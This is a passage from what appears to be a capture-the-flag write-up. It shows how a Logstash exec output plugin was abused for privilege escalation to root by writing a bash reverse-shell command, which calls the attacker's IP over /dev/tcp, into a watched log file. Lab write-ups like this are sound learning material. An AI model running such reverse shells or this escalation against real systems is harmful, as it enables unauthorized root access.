 The expression is quite simple. If you know the regular expression, it will not be hard to understand the expression here.

**filter.conf**

```
filter {
        if [type] == "execute" {
                grok {
                        match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
                }
        }
}
```

**input.conf**

```
input {
        file {
                path => "/opt/kibana/logstash_*"
                start_position => "beginning"
                sincedb_path => "/dev/null"
                stat_interval => "10 second"
                type => "execute"
                mode => "read"
        }
}
```

**output.conf**

```
output {
        if [type] == "execute" {
                stdout { codec => json }
                exec {
                        command => "%{comando} &"
                }
        }
}
```

Now, we have known how to create the corresponding `comando`. The next step is to choose the command to execute. There is not nc in the machine. But there's python and perl in the machine. But the reverse shell command is a little long. So I choose to use `bash -i >& /dev/tcp/10.10.16.61/1234 0>&1`. Write the content to the corresponding file:

```
echo "Ejecutar  comando: bash -i >& /dev/tcp/10.10.16.61/1234 0>&1" > /opt/kibana/logstash_1.txt
```

Use the nc to listen at port 1234, wait a while, root is coming.

![eykUVs.png](https://s2.ax1x.com/2019/08/04/eykUVs.png)